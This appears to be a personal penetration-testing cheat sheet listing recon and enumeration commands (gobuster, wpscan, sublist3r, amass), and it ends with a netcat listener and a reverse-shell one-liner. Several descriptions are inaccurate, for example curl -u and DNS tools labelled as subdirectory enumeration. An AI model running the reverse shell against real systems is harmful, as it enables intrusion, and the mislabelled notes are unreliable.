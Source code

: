 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    
  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
